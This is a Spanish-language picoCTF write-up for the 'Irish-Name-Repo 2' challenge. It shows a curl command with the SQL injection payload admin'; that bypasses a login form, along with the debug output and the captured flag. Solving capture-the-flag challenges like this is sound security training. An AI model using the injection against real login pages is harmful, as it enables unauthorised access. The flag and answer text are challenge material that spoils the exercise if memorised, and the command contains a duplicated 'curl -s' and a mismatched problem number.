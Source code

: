 # Irish-Name-Repo 2

## Descripción
There is a website running at `https://jupiter.challenges.picoctf.org/problem/52849/` ([link](https://jupiter.challenges.picoctf.org/problem/52849/)). Someone has bypassed the login before, and now it's being strengthened. Try to see if you can still login! or http://jupiter.challenges.picoctf.org:52849

## Pistas

The password is being filtered.

## Solución

```
# Logged in!

Your flag is: picoCTF{m0R3_SQL_plz_fa983901}

yosshell-picoctf@webshell:~$ curl -s curl -s https://jupiter.challenges.picoctf.org/problem/53751/login.php -d "username=admin';&password=hola&debug=1"
<pre>username: admin';
password: hola
SQL query: SELECT * FROM users WHERE name='admin';' AND password='hola'
</pre><h1>Logged in!</h1><p>Your flag is: picoCTF{m0R3_SQL_plz_fa983901}</p>yosshell-picoctf@webshell:~$ 
```

## Bandera

picoCTF{m0R3_SQL_plz_fa983901}

## Notas adicionales



## Referencias
- https://jupiter.challenges.picoctf.org/problem/52849/
- http://jupiter.challenges.picoctf.org:52849